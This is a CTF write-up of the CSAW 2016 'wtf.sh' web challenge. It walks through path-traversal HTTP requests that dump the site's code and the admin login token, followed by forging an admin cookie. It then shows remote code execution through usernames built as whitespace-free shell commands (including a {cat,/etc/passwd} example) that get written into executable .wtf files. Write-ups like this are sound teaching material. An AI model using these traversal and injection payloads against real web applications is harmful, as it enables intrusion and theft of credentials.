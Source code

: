 # CSAW CTF 2016 wtf.sh Writeup

wtf.sh was a challenge that included two flags, one for 150pts and one for 400pts.

## wtf.sh (1) (150pts)

In the first part we needed to call the function `get_flag1` in order to receive the flag. The `post` parameter of `post.wtf` was vulnerable to a path traversal:

```
GET /profile.wtf?user=../posts HTTP/1.1
Host: web.chal.csaw.io:8001
Cookie: USERNAME=test; TOKEN=HqZLY8GTURdESfMQn2+vDPRL4hpafUVU+ZeEhMGllZmEoD+AVa4Ucc9bIg9ht0r0gTzoDA927dK9OgLVxfHoYw==
```

Sending this request returned the content of all files in the sandbox directory (the code is available [here](https://kleber.io/odPM2AoqaZXmIFKZSqfbvFw46jRujfi0OvYQ2qVXpGZ1W)). There was also another path traversal in the `user` parameter of `profile.wtf` which allowed directory listings:

```
GET /profile.wtf?user=../../* HTTP/1.1
Host: web.chal.csaw.io:8001
Cookie: USERNAME=test; TOKEN=HqZLY8GTURdESfMQn2+vDPRL4hpafUVU+ZeEhMGllZmEoD+AVa4Ucc9bIg9ht0r0gTzoDA927dK9OgLVxfHoYw==
```

With these two vulnerabilities we were able to read all the site's code and explore the directory structure. The user data resides in the `users` directory, where a user file included a user's name, password hash and login token. Using the first directory traversal we were able to get the login token for the admin user:

```
GET /post.wtf?post=../users/ HTTP/1.1
Host: web.chal.csaw.io:8001
Cookie: USERNAME=test; TOKEN=HqZLY8GTURdESfMQn2+vDPRL4hpafUVU+ZeEhMGllZmEoD+AVa4Ucc9bIg9ht0r0gTzoDA927dK9OgLVxfHoYw==


HTTP/1.1 200 OK
[...]
<span class="post-poster">Posted by <a href="/profile.wtf?user=QNI5P">admin</a></span>
<span class="post-title">3f0b1ebe20e3682b1a5d701590ad76fb051d3a08</span>
<span class="post-body">ecX+3sJzU16hZeUPdfVy+h8kDJXsvR4DOd1QrliIBLRmgYs7sFqJvL/zRmUyhul5GtlLRbTHI/SWHMyNTcWPSw==</span>
[...]
```

In the code we saw that the `get_flag1` command will be called whenever the admin user accesses his profile on `profile.wtf`:

```bash
$ if contains 'user' ${!URL_PARAMS[@]} && file_exists "users/${URL_PARAMS['user']}"
$ then
$   local username=$(head -n 1 users/${URL_PARAMS['user']});
$   echo "<h3>${username}'s posts:</h3>";
$   echo "<ol>";
$   get_users_posts "${username}" | while read -r post; do
$       post_slug=$(awk -F/ '{print $2 "#" $3}' <<< "${post}");
$       echo "<li><a href=\"/post.wtf?post=${post_slug}\">$(nth_line 2 "${post}" | htmlentities)</li>";
$   done
$   echo "</ol>";
$   if is_logged_in && [[ "${COOKIES['USERNAME']}" = 'admin' ]] && [[ ${username} = 'admin' ]]
$   then
$       get_flag1
$   fi
$ fi
```

We also see in the code (`user_functions.sh`) that whenever a user registers a directory in users_lookup will be created with the SHA1 of the username as directoroy name. In order to get the proper user ID for the admin user to access the admin profile we can just read the userid file:

```
GET /profile.wtf?user=../users_lookup/4015bc9ee91e437d90df83fb64fbbe312d9c9f05/userid HTTP/1.1
Host: web.chal.csaw.io:8001
Cookie: USERNAME=test; TOKEN=HqZLY8GTURdESfMQn2+vDPRL4hpafUVU+ZeEhMGllZmEoD+AVa4Ucc9bIg9ht0r0gTzoDA927dK9OgLVxfHoYw==


HTTP/1.1 200 OK
[...]
<h3>QNI5P's posts:</h3>
[...]
```

Now we can get the flag:

```
GET /profile.wtf?user=QNI5P HTTP/1.1
Host: web.chal.csaw.io:8001
Cookie: USERNAME=admin; TOKEN=ecX+3sJzU16hZeUPdfVy+h8kDJXsvR4DOd1QrliIBLRmgYs7sFqJvL/zRmUyhul5GtlLRbTHI/SWHMyNTcWPSw==


HTTP/1.1 200 OK
[...]
Flag: flag{l00k_at_m3_I_am_th3_4dm1n_n0w}
[...]
```

## wtf.sh (2) (400pts)

The second part of the challenge was a little bit more complicated. We had to call `get_flag2`, but the code we dumped did not include any reference. So we had to dig deeper into the code to get remote code exection.

We saw in the code that `wtf.sh` includes a function that parses and executes .wtf files:

```bash
max_page_include_depth=64
page_include_depth=0
function include_page {
    # include_page <pathname>
    local pathname=$1
    local cmd=""
    [[ "${pathname:(-4)}" = '.wtf' ]];
    local can_execute=$?;
    page_include_depth=$(($page_include_depth+1))
    if [[ $page_include_depth -lt $max_page_include_depth ]]
    then
        local line;
        while read -r line; do
            # check if we're in a script line or not ($ at the beginning implies script line)
            # also, our extension needs to be .wtf
            [[ "$" = "${line:0:1}" && ${can_execute} = 0 ]];
            is_script=$?;

            # execute the line.
            if [[ $is_script = 0 ]]
            then
                cmd+=$'\n'"${line#"$"}";
            else
                if [[ -n $cmd ]]
                then
                    eval "$cmd" || log "Error during execution of ${cmd}";
                    cmd=""
                fi
                echo $line
            fi
        done < ${pathname}
    else
        echo "<p>Max include depth exceeded!<p>"
    fi
}
```

So what we had to do is upload a file containing shell code starting with a "$" and the filename needed to have the .wtf extension. An interesting function we found in the `post_functions.sh` file was `reply`:

```bash
function reply {
    local post_id=$1;
    local username=$2;
    local text=$3;
    local hashed=$(hash_username "${username}");

    curr_id=$(for d in posts/${post_id}/*; do basename $d; done | sort -n | tail -n 1);
    next_reply_id=$(awk '{print $1+1}' <<< "${curr_id}");
    next_file=(posts/${post_id}/${next_reply_id});
    echo "${username}" > "${next_file}";
    echo "RE: $(nth_line 2 < "posts/${post_id}/1")" >> "${next_file}";
    echo "${text}" >> "${next_file}";

    # add post this is in reply to to posts cache
    echo "${post_id}/${next_reply_id}" >> "users_lookup/${hashed}/posts";
}
```

When replying to a post we submitted the post ID via the `post` GET parameter. This parameter was also vulnerable to path traversals, which allowed us to define a filename to write to. The function also wrote the username on the first line of the file. So if we just registered a username that contains a valid shell command and write it to a file ending with .wtf into a directory where we could access the file would give us code execution. Fourtunately, the users_lookup file did not include a `.noread` file so we could just write a .wtf file to users_lookup.

The applicaiton allowed to register users containing special chars like "$", but was buggy with usernames containing whitespaces. However, because bash allows to execute commands without whitespaces (e.g. {cat,/etc/passwd}), this was not a problem. So we've registered the user `${find,/,-iname,get_flag2}` and created a reply with the following request:

```
POST /reply.wtf?post=../users_lookup/sh.wtf%09 HTTP/1.1
Host: web.chal.csaw.io:8001
Content-Type: application/x-www-form-urlencoded
Cookie: USERNAME=${find,/,-iname,get_flag2}; TOKEN=Uf7xrOWHXoRzLdVS6drbhjHyIZVsCXFgQYnOG01UhENS1aaajeezaWrgpOno8HBljrHOMmfbQUY+rES1bWlNWQ==

text=asd&submit=
```

Note that the filename is prepended with `%09` which is a horizontal tab. This is required because the reply function would interpret the name as directory name and the command would fail.

When we now call the file we get the following response:

```
GET /users_lookup/sh.wtf HTTP/1.1
Host: web.chal.csaw.io:8001
Cookie: USERNAME=${find,/,-iname,get_flag2}; TOKEN=Uf7xrOWHXoRzLdVS6drbhjHyIZVsCXFgQYnOG01UhENS1aaajeezaWrgpOno8HBljrHOMmfbQUY+rES1bWlNWQ==


HTTP/1.1 200 OK
[...]
/usr/bin/get_flag2
RE:
asd
```

So the `get_flag2` is a binary that resides in `/usr/bin/`. We now just need to create the user `$/usr/bin/get_flag2` and send the reply request again:

```
POST /reply.wtf?post=../users_lookup/sh.wtf%09 HTTP/1.1
Host: web.chal.csaw.io:8001
Content-Length: 16
Content-Type: application/x-www-form-urlencoded
Cookie: USERNAME=$/usr/bin/get_flag2; TOKEN=neappNHO7cRKNouqa1+xBYq8AWNTE2PqLcxh0JPFkaaNF5UOXc/C2fOL+JkQP65OZxc9BUkRnt1h8Z98bFbHZA==

text=asd&submit=

--

GET /users_lookup/sh.wtf HTTP/1.1
Host: web.chal.csaw.io:8001


HTTP/1.1 200 OK
[...]
Flag: flag{n0b0dy_exp3c75_th3_p4r3nth3s1s_1nqu1s1t10n}
ÿÿÿ
RE:
asd
```
